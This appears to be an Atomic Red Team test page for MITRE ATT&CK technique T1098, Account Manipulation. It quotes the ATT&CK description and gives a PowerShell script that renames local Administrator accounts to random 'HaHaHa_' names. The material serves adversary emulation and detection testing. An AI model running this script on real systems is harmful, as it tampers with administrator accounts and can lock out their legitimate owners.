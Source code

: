 ```yaml
---
title: T1098 Account Manipulation
published: true
---
```

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1098)

<blockquote>Account manipulation may aid adversaries in maintaining access to credentials and certain permission levels within an environment. Manipulation could consist of modifying permissions, modifying credentials, adding or changing permission groups, modifying account settings, or modifying how authentication is performed. These actions could also include account activity designed to subvert security policies, such as performing iterative password updates to subvert password duration policies and preserve the life of compromised credentials. In order to create or manipulate accounts, the adversary must already have sufficient permissions on systems or the domain.</blockquote>

## Atomic Tests

- Atomic Test #1 - Admin Account Manipulate [#atomic-test-1---admin-account-manipulate]

<br/>

## Atomic Test #1 - Admin Account Manipulate
Manipulate Admin Account Name

**Supported Platforms:** Windows

#### Run it with `powershell`!

```
$x = Get-Random -Minimum 2 -Maximum 9999
$y = Get-Random -Minimum 2 -Maximum 9999
$z = Get-Random -Minimum 2 -Maximum 9999
$w = Get-Random -Minimum 2 -Maximum 9999
Write-Host HaHaHa_$x$y$z$w

$hostname = (Get-CIMInstance CIM_ComputerSystem).Name

$fmm = Get-CimInstance -ClassName win32_group -Filter "name = 'Administrators'" | Get-CimAssociatedInstance -Association win32_groupuser | Select Name

foreach($member in $fmm) {
    if($member -like "*Administrator*") {
        Rename-LocalUser -Name $member.Name -NewName "HaHaHa_$x$y$z$w"
        Write-Host "Successfully Renamed Administrator Account on" $hostname
        }
    }
```
